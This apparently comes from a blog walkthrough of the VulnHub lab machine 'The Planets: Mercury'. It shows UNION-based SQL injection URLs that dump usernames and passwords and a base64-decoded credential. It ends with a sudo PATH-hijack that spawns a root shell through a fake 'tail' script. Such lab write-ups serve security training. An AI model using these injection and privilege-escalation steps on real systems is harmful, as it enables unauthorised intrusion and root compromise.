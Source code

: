 ```yaml
---
layout: post
title:  "VulnHub - The Planets : Mercury"
categories: [vulnhub,walkthrough]
pin: true
tags: [sqli,path injection,sudo,base64]
image: /images/planet.jpg
---
```

- You’ll find this vm in Vulnhub `https://www.vulnhub.com/entry/the-planets-mercury,544/`

- Difficulty : Medium

## SQL injection
## Step 1
{% highlight sh %}
http://10.0.2.5:8080/mercuryfacts/1 UNION SELECT username from users--/
('john',), ('laura',), ('sam',), ('webmaster',))
{% endhighlight %}


## Step 2
{% highlight sh %}
http://10.0.2.5:8080/mercuryfacts/1 UNION SELECT password from users--/
 ('johnny1987',), ('lovemykids111',), ('lovemybeer111',), ('mercuryisthesizeof0.056Earths',))
{% endhighlight %}

## SSH webmaster, find encoded passwords
{% highlight sh %}
  cd mecury_proj/
  ls
  cat notes.txt
{% endhighlight %}

## Base64 decode the password
{% highlight sh %}
┌─[alienum@parrot]─[~/Desktop]
└──╼ $echo "bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==" | base64 -d
mercurymeandiameteris4880km
{% endhighlight %}

## SSH linuxmaster

- linuxmaster:mercurymeandiameteris4880km

{% highlight sh %}
linuxmaster@mercury:~$ sudo -l
[sudo] password for linuxmaster:
Matching Defaults entries for linuxmaster on mercury:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User linuxmaster may run the following commands on mercury:
    (root : root) SETENV: /usr/bin/check_syslog.sh

linuxmaster@mercury:~$ cat /usr/bin/check_syslog.sh
#!/bin/bash
tail -n 10 /var/log/syslog
linuxmaster@mercury:~$ echo "/bin/bash" > tail
linuxmaster@mercury:~$ chmod 777 tail
linuxmaster@mercury:~$ export PATH=.:$PATH
linuxmaster@mercury:~$ sudo PATH=$PATH /usr/bin/check_syslog.sh
root@mercury:/home/linuxmaster#
{% endhighlight %}
